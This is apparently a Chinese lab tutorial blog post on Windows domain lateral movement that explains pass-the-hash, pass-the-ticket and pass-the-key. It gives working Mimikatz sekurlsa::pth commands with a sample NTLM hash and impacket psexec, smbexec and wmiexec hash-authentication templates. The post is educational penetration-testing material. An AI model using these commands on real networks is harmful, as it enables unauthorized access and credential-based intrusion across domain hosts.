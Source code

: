 ```yaml
---
title: 横向移动-day3-PTT/PTH/PYK篇
date: 2024-03-21 17:32 +0800
categories: [内网,横向移动] 
tags: [横向移动,ptt,pth,ptk]
img_path: /img/penetration/
---
```


1. PTH 在内网渗透中是一种很经典的攻击方式，原理就是攻击者可以直接通过LM Hash和NTLM Hash访问远程主机或服务，而不用提供明文密码。但进行横线移动的时候还是利用前两天的漏洞利用方式，即SMB、WMI、IPC等等；
2. PTT 攻击的部分就不是简单的NTLM认证了，它是利用Kerberos协议进行攻击的，这里就介绍三种常见的攻击方法：MS14-068，Golden ticket，SILVER ticket，简单来说就是将连接合法的票据注入到内存中实现连接。 MS14-068 就是一个经典的漏洞提权以及移动方式！！！
3. ptk 打了补丁才能用户都可以连接，采用aes256连接，漏洞利用条件比较苛刻。

接下来，我们主要实验的部分就是针对PTH以及PTT，这是因为PTK的利用条件实在是太苛刻了。。。

在进行实验前，我们首先需要抓取一些内网信息，诸如密码hash，用户名等等。

## PTH

PTH = Pass The Hash， 主要就是之利用密码的hash值来进行攻击的。==主要利用的lm或ntlm的值进行的渗透测试（NTLM认证攻击）==

主要用两种方式进行利用与移动：1）Mimikatz；2）impacket套件。

在域环境中，用户登录计算机时使用的域账号，计算机会用相同本地管理员账号和密码。 因此，如果计算机的本地管理员账号和密码也是相同的，攻击者就可以使用哈希传递的方法登录到内网主机的其他计算机。== 但是移动的过程还是利用前面的，例如smb等等。==

### 1）Mimikatz

测试权限：

```shell
mimikatz privilege::debug
```

进行连接：

```shell
mimikatz sekurlsa::pth /user:administrator /domain:192.168.3.29 /ntlm:518b98ad4178a53695dc997aa02d455c
```

然后，这时候靶机上就会弹出一个shell：

![截图](67f9d14c96da5c1a26d10ca9e24c6e05.png)

然后，尝试使用命令即可发现已经获取到权限了：

![截图](0f8624a30ea705e9487a2ad6ec5ef4db.png)

### 2）impacket

就是前两天使用的工具，只是不一样的在于这里使用的是hash值！

```cmd
psexec -hashes :NTLM值 域名/域用户@域内ip地址
smbexec -hashes :NTLM值 域名/域用户@域内ip地址
wmiexec -hashes :NTLM值 域名/域用户@域内ip地址
```
